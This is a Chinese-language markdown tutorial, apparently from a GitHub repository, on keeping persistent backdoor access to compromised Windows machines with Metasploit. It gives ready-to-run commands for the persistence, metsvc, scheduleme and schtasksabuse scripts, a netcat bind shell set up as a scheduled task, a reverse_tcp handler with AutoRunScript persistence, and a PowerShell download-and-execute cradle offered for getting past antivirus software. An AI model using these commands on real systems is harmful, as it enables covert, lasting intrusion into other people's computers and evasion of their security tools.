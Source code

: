 # AutoMated

http://blog.neargle.com/SecNewsBak/drops/%E7%8E%A9%E8%BD%ACMetasploit%E4%B9%8BAutomated%20Persistent%20Backdoor%20.html

## 1. MSF Persistent Scripts
在介绍之前，首先介绍一下MSF中已经含有的用于创建持续控制后门的脚本。

1.Persistence<br>
路径:`metasploit/scripts/meterpreter/persistence.rb` ，用于创建通过启动项启动。会创建注册表，创建文件， `很容易被杀软拦截` 。
![](img/1.png)

使用举例：
```
run persistence -A -U -i 5 -p 443(端口) -r 192.168.2.101(接收端ip)
```
使用-S可创建服务。-U 会在HKCU添加启动项，-X 会在HKLM添加启动项

2、Metsvc
路径： metasploit/scripts/meterpreter/metsvc.rb ，用于创建服务启动。会创建meterpreter服务，并上传三个文件， 很容易被杀软拦截，且安装服务需要管理员权限 。
![](img/2.png)

使用举例：
```
run metsvc -A
```

## 3、Scheduleme & Schtasksabuse

路径：
```
metasploit/scripts/meterpreter/scheduleme.rb
```
```
metasploit/scripts/meterpreter/schtasksabuse.rb
```

这两个脚本都是通过schtasks来创建计划任务来达到维持权限的目的，区别是` scheduleme 需要当前进程拥有 最高管理权限`(system) ，而 schtasksabuse 则不需要，（` 测试发现很容易被杀软拦截` ）。

### 使用举例：

#### scheduleme

![](img/3.png)

```
run scheduleme -m 1 -e /tmp/nc.exe -o "-e cmd.exe -L -p 8080" #上传nc并创建计划任务每一分钟执行一次 'nc -e cmd.exe -L -p 8080'

run scheduleme -m 1 -c "cmd /c calc.exe" # 创建计划任务每一分钟执行一次打开计算器命令
```

#### schtasksabuse

![](img/4.png)

run schtasksabuse -t 192.168.2.7 -c "cmd /c calc.exe" -d 4  #每隔4秒执行一次calc.exe
使用脚本需要加-t参数

能实现同样功能的脚本还有：
```
exploits/windows/local/s4u_persistence.rb
```


```ps
"SELECT * FROM __InstanceCreationEvent Within 5 " 
  "Where TargetInstance Isa \"Win32_Process\" "
  "And Targetinstance.Name = \"re.exe\" ";
  ```

http://ju.outofmemory.cn/entry/235538

## 2.Autorunscript

说到要自动运行脚本，离不了autorunscript。autorunscript是一个十分强大的脚本，可以让我们在生成会话的同时，执行指定的操作。现在可以直接通过autorunscript来直接调用的脚本已经有66个，目录在 metasploit/scripts/meterpreter 。

举个例子，如果我们想在获取到会话的同时，执行persistence进行留后门操作可以直接这样：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.2.101(接收端ip地址)
set LPORT 5555
set ExitOnSession false
set AutoRunScript persistence -r 192.168.2.101 -p 5556   (设置和上面不同的端口）-U -X -i 30
exploit -j -z
```

## multi_console_command ：用来执行msf的命令的脚本，帮助信息如下：

![](img/5.png)

使用示例：

```
meterpreter > run multi_console_command -cl "pwd"
```
在cl后面输入相应CMD的代码指令即可执行。

![](img/6.png)

> <h2>cl参数用来执行一条meterpreter的命令，`rc参数用来执行多条meterpreter命令，按行分割。`</h2>

## multicommand ：

用来执行cmd命令的脚本，可以实现执行多条`CMD`的代码。


![](img/7.png)



## 3.绕过拦截

一切脚本你就算写的再好，可是如果绕不过杀毒软件，(常规杀软，卡巴还是太恐怖)。那么可以尝试使用，Powershel在绕杀毒软件上还算过得去。

> 实验过程如下：

1. 首先使用msf的web_delivery获取一个meterpreter的会话。链接到cmd中


2. 构造创建计划。命令如下:
```
schtasks /create /tn mytask /tr notepad.exe /sc hourly  /mo 1
 #指定每1小时执行一次notepad.exe(记事本)，改成你的shell.exe即可
```
> 实测火绒的丢人时刻

3. 可以吧以上命令写成`ps脚本` 上传到网上或者上传到目标电脑的指定目录，然后构造创建计划任务，命令如下：

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('你的脚本目录');"
```
或者直接
```
powershell.exe -file (文件目录\1.ps1)
```




        